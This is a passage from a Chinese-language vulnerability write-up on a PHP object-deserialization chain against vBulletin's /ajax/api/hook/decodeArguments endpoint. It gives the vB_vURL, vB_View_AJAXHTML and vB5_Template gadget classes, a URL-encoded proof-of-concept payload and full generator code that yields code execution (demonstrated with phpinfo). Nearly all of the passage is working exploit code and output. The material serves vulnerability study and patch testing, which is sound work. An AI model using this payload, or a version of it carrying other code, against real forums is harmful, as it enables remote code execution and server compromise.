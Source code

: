 ### 3.3.vB_vURL类

* 覆盖`$this->tmpfile`：覆盖为上面我们修改过的`vB_View_AJAXHTML`的实例化对象（new vB_View_AJAXHTML），这样才能调用`vB_View_AJAXHTML`内的`__toString`方法（`file_exists($this->tmpfile)`）。

```php
class vB_vURL{
        var $tmpfile = null;
        public function __construct()
        {
                $this->tmpfile = new vB_View_AJAXHTML();
        }
}
```

### 3.4. 序列化后输出

```php
print '/ajax/api/hook/decodeArguments?arguments=
'.urlencode(serialize(new vB_vURL())) . "\n";
```

### 3.5. POC

```php
/ajax/api/hook/decodeArguments?arguments=
O%3A7%3A%22vB_vURL%22%3A1%3A%7Bs%3A7%3A%22tmpfile%22%3BO%3A16%3A%22vB_View_AJAXHTML%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00content%22%3BO%3A12%3A%22vB5_Template%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Ba%3A1%3A%7Bs%3A12%3A%22widgetConfig%22%3Ba%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A16%3A%22phpinfo%28%29%3Bdie%28%29%3B%22%3B%7D%7Ds%3A11%3A%22%00%2A%00template%22%3Bs%3A10%3A%22widget_php%22%3B%7D%7D%7D
```

## 4.完整代码
```php
<?php
class vB5_Template{
        protected $registered = array();
        protected $template = '';
        public function __construct()
        {
                $this->registered = array("widgetConfig"=>array("code"=>"phpinfo();die();"));
                $this->template = 'widget_php';
        }
}
class vB_View_AJAXHTML{
        protected $content;
        public function __construct()
        {
                $this->content = new vB5_Template();
        }
}
class vB_vURL{
        var $tmpfile = null;
        public function __construct()
        {
                $this->tmpfile = new vB_View_AJAXHTML();
        }
}
print '/ajax/api/hook/decodeArguments?arguments=
'.urlencode(serialize(new vB_vURL())) . "\n";

?>
```